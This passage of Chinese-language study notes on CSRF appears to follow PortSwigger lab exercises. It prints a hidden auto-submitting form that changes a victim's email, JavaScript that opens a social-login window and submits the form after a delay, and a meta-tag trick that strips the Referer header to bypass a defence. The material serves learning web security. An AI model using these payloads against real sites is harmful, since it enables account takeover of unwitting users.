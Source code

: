 >1. **表单定义：**
>
>  ```html
>  <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
>      <input type="hidden" name="email" value="pwned@portswigger.net">
>  </form>
>  ```
>
>  这是一个隐藏的表单，使用 `POST` 方法提交到指定的 URL `'https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email'`。表单包含一个隐藏的输入字段，名称为 `email`，其值为 `"pwned@portswigger.net"`。
>
>2. **点击事件绑定：**
>
>  ```js
><script>
>    window.onclick = () => {
>    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
>    setTimeout(changeEmail, 5000);
>}
>
>function changeEmail() {
>    document.forms[0].submit();
>}
></script>
>  ```
>
>  这部分 JavaScript 代码设置了一个点击事件处理程序。当页面的任意位置被点击时，首先打开了一个新窗口，访问了 `'https://YOUR-LAB-ID.web-security-academy.net/social-login'`。然后，通过 `setTimeout` 函数，等待了5秒钟（5000毫秒），之后调用了 `changeEmail` 函数。
>
>  在 `changeEmail` 函数中，通过 `document.forms[0].submit()` 来自动提交位于页面中的第一个表单，即上述定义的隐藏表单。这样，相当于在5秒钟后自动向指定的 URL 提交了一个带有预设邮箱的 POST 请求。

### 绕过基于Referer的CSRF防御

除了使用CSRF token的防御之外，一些应用程序还利用HTTP`referer` 头尝试防御CSRF攻击，通常是通过验证请求是否来自应用程序自己的域。这种方法通常效果较差，并且经常被绕过。

#### Referer 标头

HTTP Referer头(在HTTP规范中无意中拼写错误)是一个可选的请求头，其中包含链接到所请求资源的网页的URL。当用户触发HTTP请求时，浏览器通常会自动添加她，包括通过单击链接或提交表单。存在各种方法，允许链接页面保存或修改`Referer`头。

- Referer头的验证取决于头是否存在

  >某些应用程序会在`referer`头种存在时对其进行验证，但如果省略头，则跳过验证。
  >
  >在这种情况下，攻击者可以构建其CSRF漏洞，导致受害用户得浏览器在生成得请求中删除Referer头。有多种方式可以实现这一点，但最简单得方式是在托管CSRF攻击得HTML页面中使用META标记：
  >
  >该属性需要添加到HTML`head`头中
  >
  >```html
  ><meta name="referrer" content="never">
  >```
  >
  >`<meta name="referrer" content="never">` 的作用是指定在浏览器向其他站点发送请求时，不要包含当前页面的引用信息（referrer）。Referrer 是指向当前页面的链接，通常包含在 HTTP 请求头中，告诉被请求页面从哪个页面链接而来。
